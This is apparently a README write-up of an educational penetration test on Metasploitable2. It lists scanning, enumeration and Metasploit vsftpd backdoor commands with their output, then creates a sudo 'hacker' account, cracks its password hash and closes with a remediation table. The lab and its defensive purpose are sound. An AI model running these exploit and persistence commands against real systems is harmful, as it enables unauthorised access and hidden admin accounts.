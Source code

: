 # 🛡️ Penetration Testing and Remediation on a Target System

## 🎯 OBJECTIVES -
To conduct a structured penetration test using ethical hacking techniques on a deliberately vulnerable virtual machine. The objective is to simulate a real-world attack scenario and then provide recommendations for remediation.


## 💻 LAB ENVIRONMENT -
|Component         |  Details                             |
|------------------|--------------------------------------|
|Attacker Machine  |  Kali Linux (Latest Version)         |
|Target Machine    |  Metasploitable2 / DVWA              |
|Network Type      |  Host-Only or NAT (VMware/VirtualBox)|
|Target IP         |  192.168.56.101 (example)            |


## 🚀 TASK PERFORMED –
### 🔍 Task 1: Basic Network Scanning
Purpose: Identify open and potentially vulnerable ports and services.

Command:

nmap -sS -sV -T4 -Pn 192.168.56.101

Expected Output:

|PORT   | STATE | SERVICE | VERSION                                     |
|-------|-------|---------|---------------------------------------------|
|21/tcp | open  | ftp     | vsftpd 2.3.4                                |
|22/tcp | open  | ssh     | OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)|

Open Services Analysis:

FTP (21): Unauthenticated access or vulnerable versions.

SSH (22): Brute-force potential.


### 🕵️‍♀️ Task 2: Reconnaissance
Purpose: To identify web-based vulnerabilities and sensitive files.

Command:

nikto -h http://192.168.56.101

Expected Output:

+ Server: Apache/2.2.8 (Ubuntu)
  
+ Allowed HTTP Methods: GET, HEAD, POST, OPTIONS
  
#### 🔐 Hidden Services Example:
phpinfo.php: Often left during development.

/test/ or /backup/ folders may contain credentials or outdated code.

#### 🛠️ Extra Tool:
dirb http://192.168.56.101


### 📝 Task 3: Enumeration Summary
Purpose: To gather detailed information about services, users, and shares.

Command (Samba Enumeration):

enum4linux -a 192.168.56.101

Expected Output:

Users: admin, user1, guest

Shares: IPC$, ADMIN$, Public, tmp

Machine Name: METASPLOITABLE


### 💥Task 4: Exploitation of Services
Exploit Example: vsftpd 2.3.4 Backdoor

msfconsole

use exploit/unix/ftp/vsftpd_234_backdoor

set RHOSTS 192.168.56.101

run

Expected Output:

Backdoor service has been spawned.

Command shell session 1 opened (192.168.56.102:4444 -> 192.168.56.101:6200)


### 👤 Task 5: Creating A Privileged User
Command inside Shell:

useradd -m hacker

echo 'hacker:hacked123' | chpasswd

usermod -aG sudo hacker

Expected Output:

uid=1001(hacker) gid=1001(hacker) groups=1001(hacker),27(sudo)


### 🥷 Task 6: Cracking Password Hash
Command:

Crack Using John:

john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt

Expected Output:

hacked123 (hacker)


### 🔧 Task 7: Remediation And Recommendations
|Issue                              | Risk                      | Recommendation                         |
|-----------------------------------|---------------------------|----------------------------------------|
|vsftpd 2.3.4 with backdoor         | Remote shell access       | Disable FTP or update to latest version|
|Web server exposes /phpinfo.php    | Sensitive info disclosure | Remove or restrict access              |
|Default users found via enum4linux | Easy brute-force          | Remove or rename default account       |
|Weak password found                | Easy to crack             | Use strong, complex passwords          |


## 📚 CONCLUSION -
This project demonstrated a typical penetration testing workflow including scanning, enumeration, exploitation, and remediation planning. The vulnerabilities identified are common in many legacy or misconfigured systems and serve as practical learning examples for both aspiring ethical hackers and defenders.


## ⚠️ DISCLAIMER -
This project is strictly for educational purposes. All activities were conducted in a closed virtual environment with no access to external or live systems.
